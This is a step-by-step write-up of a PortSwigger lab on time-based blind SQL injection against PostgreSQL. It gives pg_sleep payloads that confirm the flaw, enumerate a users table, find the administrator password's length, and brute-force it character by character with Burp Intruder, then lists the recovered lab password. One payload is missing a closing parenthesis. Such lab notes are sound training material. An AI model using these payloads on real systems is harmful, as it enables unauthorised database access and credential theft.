 
### Blind SQL injection with time delays and information retrieval : PRACTITIONER

---


> Test the injection assuming PostgreSql.
```
' || pg_sleep(10) --
```
> The response completes after 10 seconds, therefore, it is vulnerable to time delay injection.

> Check for the presence of the 'users' table.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users -- 
```
> See that the response comes after 10 seconds, implying that the users table exists.
> Try a different table such as 'useronsa', and see that the response comes automatically.

> Now checking for the administrator username.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator') -- 
```
> Response comes after 10 seconds, hence, the administrator username exists.

> Next, we enumerate password length.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator' AND LENGTH(password)>20 ) -- 
```
> See that at 20, it sends the response immediately, meaning that it is 20 characters long.
> Can be done via the BURPSUITE INTRUDER spider attack with the placeholder at the length.

> Now, using the BURPSUITE INTRUDER clusterbomb attack, we can obtain the characters of each index in the password.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator' AND  SUBSTRING(password,1,1) ='a') -- 
```

> Similar to [[Portswigger/SQL Injection/Lab 12]], brute force the password with the indices from 1-20 and the characters from a-z and 0-9.
> Check the response recieved column, those with the delay have the correct values.

1 - y
2 - v
3 - l
4 - r
5 - z
6 - p
7 - w
8 - k
9 - 9
10 - v
11 - j
12 - 4
13 - a
14 - 6
15 - g
16 - n
17 - 1
18 - j
19 - d
20 - k

> Submit the password and login as admin to complete lab.

---
